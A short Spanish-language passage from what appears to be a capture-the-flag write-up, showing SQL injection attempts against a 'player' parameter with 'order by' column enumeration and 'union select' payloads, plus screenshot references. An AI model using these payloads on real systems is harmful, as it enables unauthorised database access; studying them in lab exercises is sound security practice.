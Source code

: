 ![](/assets/img/commons/Union/burp1.png)

## Post Explotación 

en este punto haré varias tipos de inyecciones guíandome de alguna error based para enumerar columnas

```console
player=admin'order by 10-- -
player=admin'order by 5-- -
player=admin'order by 1-- -
```
pero no tenemos éxito, me sigue reportando que se ha registrado el usuario, por lo tanto intentare directamente aplicar una unión comenzando desde la primera columna seguido de otras mas un tipo fuzzing

```console
player=admin'union select 1,2,3-- -
player=admin'union select 1,2-- -
```
hasta este punto me sigue reportando el usuario registrado pero pasa algo si solo enumero una columna

![](/assets/img/commons/Union/burp2.png)

